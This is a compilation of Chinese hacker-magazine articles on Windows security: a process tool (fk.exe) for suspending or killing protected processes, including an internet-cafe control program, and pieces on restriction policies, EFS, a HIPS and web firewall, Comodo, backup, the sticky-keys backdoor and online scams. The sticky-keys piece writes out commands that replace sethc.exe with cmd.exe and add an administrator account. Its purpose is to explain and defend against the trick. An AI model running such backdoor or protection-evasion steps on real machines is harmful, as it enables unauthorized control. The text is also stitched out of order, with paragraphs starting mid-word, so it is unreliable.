在任务管理器以及其它的一些程序中都没有挂起及释放进程的操作，挂起进程有时候就等同于杀死进程，对于API HOOK了TerminateProcess()的进程保护程序，使用挂起进程的方法可以有效地阻止程序运行。当然对于API HOOK的OpenProcess，挂起进程也有其存在的意义，比如对付多进程互创的程序等。在上期杂志中的“菜鸟快乐网吧行”一文中我就是使用了这种方法来挂起海阔先锋的。想要挂起或释放一个进程，fk.exe也提供了两种方式，一种是通过pid来挂起或释放进程，即`-s、-r`参数，另一种则是通过进程名来挂起或释放进程，即`-S、-R`参数。

图5

在上期杂志的“菜鸟快乐网吧行”一文中，我通过挂起海阔先锋的父进程来实现结束子进程的目的，为了使用这种方法来操作与海阔先锋类似的程序，我加入了一个“-spks”参数，即“suspend parent kill son”（挂起父进程，杀死子进程）。比如我们先使用cmd.exe运行mspaint.exe（画图程序），然后执行`fk.exe -spks mspaint.exe`命令，就会将mspaint.exe的父进程cmd.exe挂起，同时结束掉mspaint.exe了，如图5所示。对于这个参数，最好是弄明白父子关系后再使用，否则可能会挂起explor.exe，这将导致你不得不重启你的计算机，想要释放进程的话，就执行“`fk.exe -r cmd的pid`”或“`fk.exe -R cmd.exe`”（系统中只有一个cmd.exe的情况下）。

## 4、枚举某个进程的模块

DLL注入程序能够实现在任务管理器中的进程隐藏，为了分析一些DLL注入程序，我们就需要知道某个进程中的DLL调用信息，可以使用“-d”参数，该参数后面必须要接PID，可以由“-l”参数来获得，比如我们要得到explorer.exe中的DLL信息，就可以执行`fk.exe -l | findstr /I "explorer.exe"`先找到explorer.exe的进程PID，然后再通过“`fk -d pid`”命令来查看相关的DLL模块信息，如图6所示。

图6

### 5、API判断

说白了Windows中的编程在很大程度上就是几个库函数的调用，有时候我们们需要判断该函数到底在哪个DLL文件中，此时就可以通过“-df”参数来得到特定DLL文件中的函数地址，比如我们不知道MessageBoxA函数到底是在哪个库中，就可以连续调用`fk.exe -df ntdll.dll MessageBoxA && fk.exe -df kernel32.dll MessageBoxA && fk.exe -df user32.dll MessageBoxA`，此时只有最后一个输入地址为`77d507EA`，也就是说MessageBoxA函数是在user32.dll中。类似的方法就好比在OD中如果要“bp MessageBoxA”，实际上与“bp 77d507EA”是一样的。

exe的INT输入信息，那么执行`fk.exe -int cmd.exe`即可，程序最左边为每一个API函数的VA地址（虚拟内存地址），中间的为Hint号，后面的就是函数名，如图8。

### 6、PE输入名表的获得

PE文件都会有一个INT（import name table）输入名表，它的作用是为了引入其它DLL文件中的API函数，分析PE文件的INT不仅有利于分析程序功能的实现，还可以方便我们定位PE文件的INT位置，“-int”参数即为此功能，比如我们要获得cmd。

为了当作cmd.exe的一个外置程序，我们可以直接将fk.exe复制到`%systemroot%\system32`目录下来使用，好了，关于fk.exe的使用，我就介绍到这里了。

> （文章中所用到的fk.exe已收录到光盘中）

## 增强Windows免疫力——软件限制策略配置的技巧

层出不穷的病毒和木马对Windows系统的安全构成了极大的威胁，我们在享受互联网的同时也深受着病毒和木马的困扰。除了安装各种各样的杀毒软件以及防火墙外，还有没有什么别的方法可以简单地达到增强系统对恶意代码的免疫能力呢？其实微软为我们提供了一套基于管理控制台的安全配置工具，可以方便的配置计算机的安全策略。

我们使用快捷键`Win+R`调出“运行”窗口，输入`gpedit.msc`打开本地组策略编辑窗口，点击“Windows设置”下的“安全设置”，可以看到有很多类的安全策略，其中的“软件限制策略”对于恶意软件的免疫和防护就非常有用，本文我就重点介绍一下软件限制策略。

在普通用户的电脑中，软件限制策略默认是不被开启的，这表示任何处在本机系统内的软件都有运行的权利，而这正是不安全因素的根源。如果我们能够根据自己使用电脑的情况来进行恰当的配置，就可以避免很多恶意软件的潜在运行了。下面我们就结合实例来说明如何进行设置。

软件限制策略中的规则可以用来标识一个或多个应用程序，以指定是否允许它们运行；如果我们希望系统能达到一定的安全标准，可以先将默认的安全级别设置成“不允许的”，通过点击“安全级别”，选择右侧的“不允许的”，点击右键选择“设置成默认”即可实现。

软件限制策略是为管理员提供的一套策略驱动机制，用于标识软件并控制该软件在本地计算机上运行的能力，即“允许”或“限制”运行。它由两部分组成：默认设置和例外清单。默认设置是指系统默认的软件安全级别，可以被设置成“不受限的”和“不允许的”。例外清单则定义了例外的程序集，不受默认规则的限制。

# 安全第一

哈希规则、网络区域规则以及路径规则。这就是用来标识软件的四个规则，证书规则使用软件发布者方可执行文件提供数据签名证书的方式来标识软件，哈希规则使用软件发布者方可执行文件提供的数字签名证书来标识，路径规则使用可执行文件位置的本地路径、通用命名约定（UNC）路径或注册表路径来标识，而网络区域规则使用可执行文件源自的Internet区域来标识，在实际的配置过程中，最常用的就是哈希规则和路径规则。

使用路径规则，则只有指定文件夹内的程序才可以运行，这有效的避免了一些存放资料的盘内所隐藏的恶意软件的潜在运行。设置成图2所示的那样，则只有C盘内的程序可以运行，当运行D盘内的程序时，就会弹出如图3所示的提示框。

证C盘的绝对安全，但其实则不然。试想一下，如果一个QQ病毒感染了QQ的主程序，这样在启动QQ的时候，病毒程序也就会随之运行，对于这种情况，使用路径规则是无法解决的，因为路径规则只检查路径是否合法，而不会检查这个要运行的程序有没有改变。这时，我们就需要使用哈希规则了，我们按照图4所示的那样，就为QQ.exe创建了一个哈希规则，这样当它被修改时，系统就会阻止其运行。值得注意的是，QQ会进行更新，此时就需要我们及时更新哈希规则，否则系统就会根据设置的哈希规则来阻止其运行。


经过上面的学习，原本不懂的小菜也应该学会了如何使用软件限制策略来增强系统对恶意代码的免疫了吧。细心的你可能也会发现，打开本地组策略编辑器时，在“计算机配置”和“用户设置”下都有一个软件限制条目，到底该使用哪一个呢？如果我们希望这个策略仅对某个特定的用户或用户组生效，则使用“用户配置”下的策略；如果我们希望对本地登录到计算机的所有用户都生效，就使用“计算机”下面的策略。现在，该使用哪一个，聪明的你一定明白了吧。软件限制策略就为大家简单的介绍到这里，如果读者朋友们对其进行深入研究，便会发现组策略其实非常强大的！

如果我们给所有可能的路径都创建规则，这样似乎可以保证……

# 杀“毒”子——对的未必就是对的

## — Comodo使用小记 —

今天，我要给大家介绍一款比360、瑞星等更好的杀毒软件，它的名字叫做“comodo”。据可靠消息查证——这是一款排名第一的杀毒软件，但是大家不要被他的名号所吓倒，虽然它排名居首位但是这款杀毒却是完全免费的。下面我就为大家简单介绍一下这款杀毒软件的主要功能，软件的主界面如图1所示。

我们可以看到这款杀毒软件主要有“病毒防御”和“网络防御”两大功能，“病毒防御”选项旁有“扫描加速”选项，这个选项是为了照顾电脑配置不太好的小菜们。“网络防御”也就是“防火墙”，它可以随时监控连入、连出的网络连接状况。防火墙的进程为“Cmdagent”，在某些情况下该进程会占用大量内存，也许刚才还是5610k，而开启了防火墙后马上就会变为116760k，希望大家有一个心里上的准备。在主界面的右侧边栏中，可以看到“网络流量”功能，它的作用主要是监测电脑中连接网络的进程。返回到程序主界面上方的工具栏中，它的第二项是“反病毒”，这个功能和其他杀毒软件一样，有运行扫描、隔离、更新等操作，如图2所示，软件同样有“云安全”，我们可以将可疑的文件进行提交。


软件的第二项就是“防火墙”了，如图3所示，我们可以添加信任程序，不信任程序（拦截程序），如果将黑客程序添加为信任，那么黑客工具也就不怕被查杀了。另外一个比较新颖的选项就是——网络隐身向导，它的功能将影响别的用户对你计算机是否可见。在防火墙设置界面的左侧边栏中有“高级设置”选项，在这里可以将防火墙的级别调高或调低（建议保持默认）。


工具栏的第四项为“DEFENSE+”设置项，如图4所示，在这里我们可以查看进程（包括隐藏进程），还可以设置注册表保护，这样使用者就不用担心主页被篡改了。


我认为这个软件最好的一个功能，也是最诱惑人的一个功能，就是sandbox沙盒功能了，如图5，在我们玩黑的过程中一定有数不清的工具要去检测和使用，对于这种情况，我们就可以把这些工具使用杀毒软件提供的沙盒功能来运行，小菜们就再也不用担心这些黑客工具中是否会有后门什么的了！

这款软件还有一个优点，就是在打开每一款软件运行时都会提醒是否信任该程序并提示是否在沙盒中运行，当然这对心急的朋友来说也是软件设置的不足之处，但是毕竟安全还应该放在第一位，所以在选择软件时，我们还是要尽量去吸取它的优点。最后，希望大家能更好的挖掘该杀毒软件的用途，让它的功能发挥到极致。

（文章中涉及到的comodo杀病毒软件，已经收录在了光盘中）

## EFS让安全无懈可击


路 雪

自从“艳照门”事件之后，人们的安全意识就有了很大的提高，开始尝试使用一些所谓的文件加密软件，但这些软件的安全性并不高，很容易就被破解，那有没有一个好的文件加密软件呢？答案是肯定的，EFS就是一个不错的选择。EFS的全称是 Encrypting File System，翻译过来就是加密文件系统，这是系统内置的功能，可以将以NTFS格式存放在磁盘上的文件通过操作系统加密来保存，这在一定程度上保证了数据的安全性。

### 一、使用EFS之前的准备

因为EFS只能为NTFS格式存放的文件进行加密，因此如果我们的磁盘不是NTFS格式的话就得先进行转换。转换的方法很简单，只要在命令提示符下输入 `convert X:/fs:NTFS` 就可以了（其中的“X”更换成我们想要转换的盘符）。可能有小菜会担心自己的数据会丢失，大可不必担心，这个是无损转换，不会丢失任何数据的。

### 二、EFS的原理

当我们使用EFS时，系统会分配给我们一个证书，包括有两把密钥，一把是公开密钥，另一把是私有密钥。要加密某个文件时，系统会随机产生一个密钥，然后用这个密钥进行对称加密文件，接着系统会使用之前分配给我们的公开密钥把这个随机生成的密钥进行加密，然后储存在文件头。当我们要打开EFS加密过的文件时，系统先使用分配给我们的私有密钥对文件头进行解密，就可以得到系统加密该文件时的随机密钥，再使用得到的密钥来进行解密文件了。


### 三、EFS的使用

好了，听了这么多的理论，我们也该动动手了。在我们要加密的文件上点击右键，选择“属性”，在弹出的窗口中切换到“常规”选项，在右下角我们可以看到一个名为“高级(D)...”的按钮，点击这个按钮后，就会弹出“高级属性”窗口，勾选上“加密内容以保护数据(E)”，如图1，然后点击两次“确定”，眼尖的叉子就会发现刚才加密的文件已经变成绿色的了。

“这个文件不是可以正常打开吗？哪里加密了呀？”——小菜问道。大家需要注意的是，EFS并不是那种打开需要验证密码的文件加密系统，现在我们更换一个用户再打开看看，就会看到如图2所示的提示了。


“那我们要想让一个特定的用户也可以访问，该怎么做呢？”又一个小菜问道。其实解决的方法很简单，返回到“高级属性”窗口，点击“详细信息”按钮，在弹出的窗口中点击“添加(A)”，在出现的窗口上面就会显示已有证书的用户。我们选择想要共享的用户，再点击“添加”按钮，最后点击“确定”就行了，如图3。没有取得证书的用户是无法像我们那样访问加密过的文件的，要想使特定用户取得证书，可以让该用户加密一个文件即可。


## 四、备份与恢复

有时候，我们的电脑总会出现一些问题，比如系统崩溃了或配置文件丢失，这都会造成我们使用EFS加密过的文件无法打开，为了避免这种情况，所以应该在启用EFS加密时就做好证书的备份，好在出现意外时加以恢复。

打开控制台（在“运行”中输入“mmc”）依次展开菜单“文件”→“添加/删除管理单元”，点击“添加”按钮，在弹出的窗口中找到“证书”并添加，如图4所示。


图6


图4

导出的密钥一定要保存好，有条件的可以弄个U盘，把密钥存放在U盘里，再把U盘上个十几把锁，呵呵，总之要保存好就是了。当我们需要恢复时，需要先把证书分解，这时候就需要使用我编写的一个小工具——EFS操作工具（也可以在命令行下完成，具体的命令我会在后面提到）。


图7


图5

如果我们正在使用的用户是管理员的话，就会弹出一个窗口询问我们管理单位为哪个帐户管理证书，如图5，选择“我的用户帐户”，然后在左侧的控制台中依次展开“证书－当前用户”→“个人”→“证书”，再在右侧的窗口中选择自己的证书并点击右键，选择“所有任务”→“导出”，如图6。在弹出来的窗口中一路点击NEXT就行了，不过在询问是否导出私钥时，要选择导出密钥。

打开工具，界面如图7所示，把文件拖到“分解证书”标签右边的编辑框里，就会出现一个窗口要求我们输入密码，这里的密码就是我们导出密钥时所设置的密码，如图8。当我们输入正确的密码后，就会生成两个文件，一个是PFX文件，一个是CER文件。


图8

打开PFX文件，一直点击NEXT就可以导入了，不过在选择证书存储区的时候，我们需要选择“所有的证书放入下列存储区”单选项，再把存储区设置为“个人”。CER文件也差不多，不过就是打开后再按下“安装证书”就行了。

### 五、EFS的命令行用法

前面提到了EFS命令行的用法，其实很简单的，我们在命令行下执行Cipher /?就可以看到了详细的用法了。

> （文章中涉及到的EFS操作工具，已经收录在了光盘中）

## 安全防御  顽配服务器安全警线


枕小龙（白雪龙）

对于服务器而言，安全是一个永无止境的话题，如何才能有效的去防范来自于各方面的危害，一直是服务器管理员忧心的问题，今天我就给大家介绍如何使用Hips主机防御系统和Web应用防火墙相结合的方式，简单构筑一个服务器理想的安全环境。

### 一、新一代主机入侵防御系统——禹盾 Hips

Hips也就是主机入侵防御系统。它是一种能够监控电脑中文件的运行以及文件对注册表的修改，并且向用户报告相关请求的软件。比如当我们双击一个病毒程序，这时Hips就会弹出一个对话框提示我们，只要我们阻止了它的运行，这个病毒就不会被运行。


只要你有足够多的Hips相关知识，在你的电脑里甚至不需要任何的杀毒软件都可以。虽然Hips有以上的功能，一样能100%的拦截，但是它不能称为防火墙，因为它不能阻止网络上其他计算机对你的攻击行为。


Hips分为智能和手动两种模式，一般人都喜欢使用智能的，因为用起来省事。本文所介绍的禹盾Hips主机入侵防御系统，我认为是半智能的，因为它可以在使用的过程中随着软件的提示来添加规则，这在很大程度上方便了不懂Hips规则的用户。


单击第一个选项“规则设置”下的“打开规则目录”来简单地设置Hips的规则。该Hips提供了默认6种被允许的规则，分别是允许被操作注册表路径、允许被加载驱动列表、允许被启动进程列表等。每当设定一个新的规则前，都要对“规则数”做相关修改，规则的添加格式为“规则_编号=规则”。

工作区切换至“功能菜单”选项，如图3所示。要想做到最好的保护，当你要将所有的选项全部勾选了，此刻只要我们的主机有一点的更改或者操作，Hips就会自动弹出警示界面，如图4所示，这时候我们可以选择“同意”还是“禁止”该动作对电脑的操作，也可以把它加入到规则目录中方便下次的使用。

禹盾本来是一款主机入侵防御系统，后来作者接受了网友的建议，将其它非Hips功能与Hips分离，作为了一个单独的软件“禹盾系统助手”，该软件有查杀流行木马、设置IE、管理启动项、优化内存等功能，如图5，下面我们就来看一下它的简单使用。


“查杀木马”会对当前电脑运行的所有进程进行查毒，速度很快的，可以查杀一些当前流行的木马和病毒，但大家可不要指望着它可以查杀全部的病毒哟，毕竟它不是专门的杀病毒软件，如图6所示。


“设置IE”选项可以执行清理电脑的收藏夹、清理临时文件、清理地址栏、清理Cookies等操作，同时可以锁定IE起始页，防止主页被恶意程序篡改，当主页不正常时，只要点击“恢复”按钮即可。在使用“启动管理”这个功能时，系统一直会提示错误，我想可能是这个功能还有待作者完善吧。“内存优化”就是对系统内存进行优化了，使用很简单，单击“优化”按钮就行了，如图7所示。“记录清理”可以清理电脑使用程序后产生的垃圾，选中“全选”后点击“清理”即可。“磁盘清理”可对选定磁盘进行特别的免疫处理，还可以禁用磁盘自动运行特性，从而避免带毒的移动磁盘插入本机后病毒立即自动执行，如图8所示，首先选择免疫的目标，可以选择所有本地驱动器，也可以选择指定的盘或光驱，然后点击“免疫选中磁盘”就可以了，此操作将在磁盘上建立免疫的目录，假如我们的U盘进行了免疫，此后这个U盘拿到别的电脑上，即使病毒自动运行，也无法自行激活运行了，而禁止自动运行功能，将会屏蔽系统的自动运行功能。


### 二、服务器网站的安全战士——web应用防火墙

上面提到了Hips之所以不能被称为防火墙，是因为它不能阻止网络上其他计算机对你的攻击行为，例如CC攻击等，为了弥补这一缺陷，我们可以使用Safe3 Web应用防火墙，它是基于新一代的Web安全技术而开发的全方位企业Web信息安全产品。不但可以有效的扫描各种WebShell，而且还能抵御各种Web攻击，软件只可以运行在Windows2000/2003下，支持IIS5和IIS6，试想如果使用Hips来阻止相关攻击，又使用Safe3 Web应用防火墙来扫描及清除防御，那么我们的主机怎能不在理想的安全环境下呢？

当前网络上P2P软件泛滥成灾，多线程下载（比如迅雷等）造成网站仅有的带宽资源严重枯竭，不仅影响了网站的正常浏览，有时候还得为额外的流量支付大批费用。Safe3 Web应用防火墙中的“Web应用防火墙”→“流量控制”可以有效的解决多线程下载带来的流量损失，如图9，只要把“启用防多线程下载，注：阻止迅雷等多线程下载工具下载”的选项勾选即可。


如今的网络，各种SQL注入工具充斥着Internet，更甚者自动化蠕虫的Mass SQL Injection一天就可以给成千上万的网站挂马，严重的损害了企业形象和数据安全，Safe3 Web应用防火墙采用了注入模拟技术，可以有效的拦截各种变种注入，如图10，只要勾选上“启用Cookies防注入”和“启用GET防注入”就行了，不过遗憾的是，这款软件缺少了防止Post注入的功能。


为了网站的发展，站长们经常会相互间进行大量转载和复制资源，这样做不仅浪费了带宽资源，而且也是一种侵权行为，对于这个问题，Safe3 Web应用防火墙可以对网站资源进行高度保护，防止盗链，最大限度的保原创网站的合法权益，如图11。

2007年OWASP将XSS列为Web安全威胁的第一位，也就意味着只要黑客在Web页面里插入恶意html代码，当用户浏览该页时，嵌入其中的html代码就会被执行，对于这点，Safe3 Web应用防火墙可以有效检测包含XSS的恶意URL并拦截，我们只要把选项卡切换到“XSS跨站”，把相应的选项勾上就可以了。“影音保护”功能就是指网站中的影音文件组只允许在线播放而不能直接下载，这样做的目的是可以有力的保护视频网站的带宽资源和服务质量。Safe3 Web应用防火墙的“Web杀毒”采用智能查毒方式，提供普通扫描和深度扫描两种方式，先选中web杀毒，单击启动，在弹出的扫描界面中选择好要扫描的web路径，最后点击“开始扫描”就可以了，如图12所示，如果普通扫描没有发现网站的异常，还可以在杀毒“设置”的选项中自己设定扫描文件的特定类型、扫描关键字以及是否启用关键扫描，如图13。但是对于Webshell扫描这个功能，也是有一定缺陷的，大家可以参考以前《黑客X档案》上的相关文章。


Safe3 Web应用防火墙的网站监控能够实时监控站点文件并且清除新建的Webshell，如果发现目录异常，它就会发出警告，提示使用者异常。Safe3 Web应用防火墙还提供了Arp免疫功能，可以防止Arp挂马和敏感信息被监听截获。当黑客入侵同一网段的主机后，如果我们的主机没做任何Arp防御措施，即使你的主机没被入侵，但客户访问你的网站时网页被插入恶意代码即Arp挂马。同时入侵者还可以嗅探到此网段下所有主机的Ftp、Http等用户密码。Arp还可以欺骗主机的网关，从而造成本地通讯中断，如图14。


有条件的服务器管理员可以填写网关IP和MAC进行免疫，辅助工具中提供了“网页篡改检查”功能，可以实时根据特征码进行检测，我们都知道Webshell有批量挂马的功能，给管理员手工清除造成了很大的困难，而此软件的挂马清除助手就可以轻松解决管理员的困境，如图15所示，选中Web路径和要清理的文件类型，然后输入被批量挂的代码，点击“立即清理”即可。


使用上述两款软件，前者可以防止我们的服务器运行方面的安全，而后者则最大力度的避免了服务器上网站给服务器带来的危害，所以它们的结合将会是个不错的选择。

（文章中涉及到的安全系统雨盾HIPS 2.04、禹盾助手、Safe3 Web应用防火墙，已经收录在了光盘中）

# 数据备份采用“金山快盘”

天涯衰草

计算机系统数据的重要性不言而喻，可是很多人常常要到重装系统的时候才想到，可是这个时候往往已经是追悔莫及了。而现在网上已经有很多的网络同步系统，通过它其实就可以自动对系统数据进行备份操作。这样无论是重装系统还是远程同步，都可以马上找回相应的系统数据。


图3

## 一、注册安装同步系统

现在网络中免费的同步系统有很多，比如金山快盘、数据银行等等，今天我就使用金山快盘来进行演示。要想使用金山快盘的相关服务，首先需要拥有一个金山快盘的账户。如果你还没有金山快盘的账户，登录到快盘的官方网站（http://k.wps.cn），点击“注册一个新账号”链接后进行注册即可（如图1）。


图1


图2

金山快盘的账户注册完成以后，点击页面当中的金山快盘客户端下载链接，下载最新版本的快盘客户端软件以备运行。下载安装时只需要一路点击“下一步”按钮即可完成。当然在提示输入快盘账户的时候，需要按照要求输入自己快盘账户和密码（如图2）。客户端软件默认使用的是“D:\快盘”这个路径，用户可以根据要求设置快盘的存放目录（如图3）。所有设置完成后，会在系统当中自动生成一个虚拟磁盘。其本质就是你设定的文件夹目录，不过这样访问的时候自然更为方便。

## 二、系统数据同步操作

同步操作就再简单不过了，用户只要将文件直接复制到这个虚拟盘符里面，客户端软件就会将文件自动同步到快盘空间中。接下来无论是重装系统还是在其他系统，按照前面的步骤安装快盘客户端软件。接着进入到快盘目录后在弹出的菜单中，选择“立即进行一次文件同步”命令，这样快盘软件就会将空间中的文件同步到本地系统中（如图4）。


图4

以后用户在快盘文件夹中的任何改动，都会被同步到快盘空间里，同样快盘空间中的任何改动也将被同步到本地系统。其实像一些比较重要的文件，比如QQ聊天记录、重要的资料信息，以后都可以习惯性地存放到快盘目录。这样不但可以摆脱闪存盘等移动设备，还可以利用金山快盘对这些文件进行实时的备份操作。

## 三、备份操作自动完成

由于前面的操作都是手工进行的，可能很多用户还是觉得比较麻烦，所以这里介绍一个自动备份的方法。首先从网上下载一款名为“用户资料转移器”的小软件，解压后直接运行文件夹中的主程序即可，软件默认支持主流的Windows XP和Windows 7系统。“用户资料转移器”会自动识别出系统数据存放的位置，包括我的文档、系统桌面、浏览器收藏夹、下载信息等。根据自己的需要选择要转移的系统数据，在“目标路径”中设置目录备份的路径。比如我的文档、收藏夹文件夹、Cookies文件等，都是非常重要的系统数据因此不能保存到系统盘里面。

由于软件默认使用的“目标路径”是系统的D盘，而我们则需要利用金山快盘来自动备份这些数据。所以用户需要点击窗口中的“选择路径”按钮，然后在弹出的窗口中设置成金山快盘的存储路径。接下来在“转移选项”中，还包括几个选项需要特别的说明，因为它关系到数据同步的成败……


图5

所有的设置完成以后点击“快速转移”按钮，就可以将系统数据转移到金山快盘的文件夹目录中，与此同时快盘客户端软件又会将这些数据同步到网络空间中，从而完成了系统数据自动备份的一个操作过程……

## “危险”的Windows粘滞键——刻不容缓

郭建伟

当黑客通过各种方法成功侵入系统后，为了达到长期控制主机的目的，通常会在系统中安装各种木马程序，在系统中非法开启后门，从而达到远程控制的功能……如果黑客“合理”地利用系统自身存在的某些漏洞，就无需要费时费力地种植木马，同样可以达到悄无声息控制系统的功能。

exe”文件并没有提供任何验证机制，只要使用者按下上述快捷键，就可以直接调用“sethc.exe”程序，这对系统存在着很大的危害。

```
copy /y %systemroot%\system32\cmd.exe %systemroot%\system32\sethc.exe
net user myadmin hello /add
net localgroup administrators myadmin /add
```


在默认情况下，上述快捷键都处于激活状态。当触发按键时，系统会自动调用“c:\windows\system32\sethc.exe”程序，并弹出对应的确认窗体……

避免上述风险的最好方法是关闭粘滞键，通常的方法是在控制面板中打开“辅助选项”程序，在弹出窗口，如图1的“键盘”面板中依次点击单个“设置”按钮，在弹出窗口中分别取消“使用快捷键”选项的选择状态……

# 安全第一


分别点击“设置”按钮，在弹出窗口中分别取消“使用快捷键”选项的选择状态。这样看似上述快捷键就无法使用了。

上述方法似乎解除了粘滞键的威胁，实际上情况并非如此。当你注销当前账户后，在登录系统之前按下上述快捷键，就会发现Windows依然“执着”地运行“sethc.exe”程序，弹出对应的确认窗体。这是因为上述方法针对的是当前用户，而对System用户没有丝毫作用。在没有登录之前打开的进程具有System用户权限。即使您进入系统后取消了粘滞键，也不会对System用户发挥作用。最好的办法是以System身份取消粘滞键，才可以彻底解除其威胁。

这里我们就使用系统内置的“at.exe”程序来完成该任务。首先在服务管理器中保证“Task Scheduler”服务处于正常运行状态。之后使用管理员身份登录系统，在“开始”→“运行”菜单中执行命令“at 9:59 /interactive cmd.exe”，注意其中的时间是假设的，假设当前的时间是“9:50分”，那么到达“9:59”后即可运行“cmd.exe”程序（预设时间和执行时间应该存在差异），您可以根据具体情况设置时间。稍后片刻后，“cmd.exe”程序就会自动运行，注意此时“cmd.exe”是以System用户身份启动的，如图2。在任务管理器中结束“explorer.exe”程序，Windows桌面消失。接着在CMD窗口中执行“explorer.exe”程序，可以重新显示Windows桌面。之后进入控制面板，启动“辅助选项”程序，按照上述方法，将五个快捷键全部关闭即可。注意，不要点击快捷键打开粘滞键设置窗口，否则修改仍旧无效。之后重新启动系统，危险的粘滞键就会彻底关闭了。

# 还你一片纯净天地：网络诈骗全揭露

不得不说，诚信问题一直受到舆论和大众的关注。随着互联网的发展，这种可以匿名的方式使得骗子更加疯狂，让网络环境乌烟瘴气，各种骗局接踵而来，今天我们将为大家揭示目前网络上流行的骗术和不真实的信息，骗子们的鬼把戏正源于此，帮助广大网友提高防范意识。

比如有一家叫做taobao0.com的网站（现已经被关闭），看页面与真淘宝网站非常像，但所有的购买支付信息全是套取用户隐私的伎俩。针对这种问题，笔者建议大家采用直接访问的方式避免落入骗子的圈套。

## 一、淘宝和它的伙伴们

网络购物已经不再是新鲜话题，它的快速、便捷、便宜等特性让其在年轻人当中深受欢迎，在网络诈骗的一系列方式中，针对淘宝等几家大型购物网站的诈骗案例非常多。

- 1. 假淘宝

在今年2月份的时候，国家公布了10家假淘宝，这些李鬼冒名“淘宝网”向网民发布中奖信息，等到登录以后即会接到领取奖品的通知及网站提供的银行卡卡号，要求按照网站规定交纳一定的手续费后领取。这种方法看似老套，但却让很多人上当受骗。


如果我们经常上淘宝购物，可以将其添加到收藏夹，或者在搜索引擎中输入淘宝网，点击第一个链接以确保网站的真实性（如图1），最好记住经常光顾网站的域名，当然直接在IE地址栏输入是最放心的方法了。

关于淘宝的信用问题，笔者再多说一句，虽然从理论上说信用等级越高产品越值得信赖，但目前淘宝上已经出现了卖“钻”服务。“一钻”的信誉售价在250元左右，通过这种方式快速达到“钻”级水平轻而易举。


提醒广大网购者注意，在网上买东西（尤其是虚拟物品时），一定要提高警惕，除了一些公共信息（比如手机号、游戏帐号名）外，其它诸如密码和验证码一类的信息千万不能泄露。

- 2. 特殊商品交易

淘宝上有很多卖无实物的卖家，比如充值卡、IP卡等商家，用户在购买这些产品时要格外注意。近日笔者在淘宝网上购买手机充值卡，突然发现某卖家卖出的百元充值卡只有70多元，感觉这里肯定有文章（如图2）。


联系卖家后，他表示100元面值充值卡只要80多元，并给出了一个地址（如图3）。在这个地址中，实际上只是一个圈套的开始。他表示之所以有如此低价，是因为要借助第三方网站进行充值，而这个第三方网站正是一个钓鱼网站（如图4）。

当用户拍下商品后，一般都会提供手机号，而卖家在得知买家的手机号后，就会在某个网站注册或进行消费，此时该服务网站会将验证码发送到买家的手机上，而卖家则谎称已经将密码发送到买家的手机上了，只要用手机号和密码登录就可以完成充值。实际上通过这类钓鱼网站，卖家可获得你的验证码并完成真实消费。


更毒的方式在后面，如果你已经拍下产品，后来发现需要第三方支付平台，感觉可能有蹊跷，于是要求对方退货，对方会想尽办法让你支付。这时你会致电淘宝官方客服；若你知道7天后对方没有发货成功会自动退款而感到庆幸，你很可能再次收到一个“淘宝官方客服”电话，号码与客服一致，对方会以“退款审核、账户冻结、身份核验”等名义继续套取信息。

> **小结：** 淘宝类网站诈骗方式基本属于“击鼓传花”型。骗子利用许多人贪便宜的心理将其争先，然后再把你引导至非官方平台（第三方平台）。对于这种方式的诈骗，应牢记一条原则：整个交易过程都在淘宝这种官方网站内完成。

## 二、网络交友诈骗

在互联网上通过网络聊天交友，骗取对方的信任以及感情，然后以种种理由借钱骗取钱财。这种线上的诈骗方式只是节省了骗子的劳动强度，但很多本质的东西一点也没变。

笔者随便在一家交友网站注册，并且将信息填写得完整一些（当然都是假的），没过多久就收到QQ上的信息，然后对方给了手机联系方式。两天后便给笔者发来了短信，内容如下（括号内为笔者点评）。

> 对方：你好，明天有空吗？晚上方便的话来找我……
>
> 笔者：呵呵，去哪啊？
>
> 对方：我在公交附近……有空吗？（涉步索距）
>
> 笔者：你干嘛总说“你能来我这边么”？（暗示异常，绝对不来的，下面解释）
>
> 对方：第一次你过来对吗？（翻译为第一次你过来受骗好么？）
>
> 笔者：我怕过去都快10点了，咱们去哪啊（骗子赶紧露馅吧）
>
> 对方：……

其实很简单，对方就是让笔者去她那里，然后带到一个茶馆或者酒吧之类的地方，进行高消费，所以绝对不会来笔者这边的！这帮人就是托，经常看法制节目的朋友对此不会陌生吧。

还有一种方式要比这个高明的多，但我强烈谴责这些企业，卑鄙、无耻、下流！我们知道网络上有很多虚拟物品，目前有些SNS网站开始采取“托”的方式销售他们的产品，笔者在某个小型交友网站注册，只留下了QQ号码，第二天就发现有几个陌生人联系笔者（如图5、6、7）。


在聊天开始，笔者并不知道他是谁，但已经感觉到蹊跷，便谎称以前聊过，这位“专业的”客服还真敬业，给台阶就下，搬梯子就上，没两句就转到核心话题上来了。聊天中提到的房子就是该网站的虚拟物品，就这样在不知不觉中，你可能就已经帮对方客服买了单。说实话，这种做法真的非常的恶心，因为前一种诈骗还可以报警，但这种症状捉起来就困难多了。

> 小结：首先，我们承认网络交友是有抱着交友目的来的，但也要谨记很多骗子也会滥竽充数，他们一般具有华丽的外表、异乎寻常的主动，换句话说就是给你瞬时激情澎湃的感觉，好像天上掉下个林妹妹般，越是这种情况，越是要小心。另外，见网友方式上可以选在公共地点（比如KFC），不随便出入不了解的场所，以免上当受骗。

## 三、虚假信息

有一类犯罪分子在网站上发布假中奖信息，声称是内部人士，能预先知晓下一期“六合彩”中奖号码，但中奖号码只会告诉他们的会员，成为会员必须先交纳会费。当有侥幸心理的网民交纳了这笔费用后，对方马上通知你，提供中奖信息有一定风险，必须再一次性交纳几万元保证金，他们才放心提供中奖号码……这种虚假骗术可以说直接将现实中的骗术搬到了互联网上。

最常见的QQ虚假信息行骗也是骗子非常“有效”的手段之一。有时我们在QQ聊天室或者QQ游戏中经常看到一些我们已经中奖的信息，然后给出一个与QQ网站相似的网址去填写中奖信息。如果我们将敏感信息提交了，就会中招（如图8）。利用QQ发送虚假信息进行诈骗的事件屡见不鲜，但欺诈手段如出一辙，总体来讲骗子一般通过三步来实现诈骗。第一步：盗取用户QQ帐号密码；第二步：冒充用户给QQ好友发送诈骗信息；第三步：愿者上钩，等待汇款。


> 小结：虚假信息是网络诈骗所有活动的前提，但此类网络诈骗比较特殊，是一种完全依赖虚假信息进行的网络诈骗。区分这种诈骗方式最好保持一颗“天上不会掉馅饼”的心态，否则肯定会丢了西瓜还丢了芝麻。

## 四、网络钓鱼

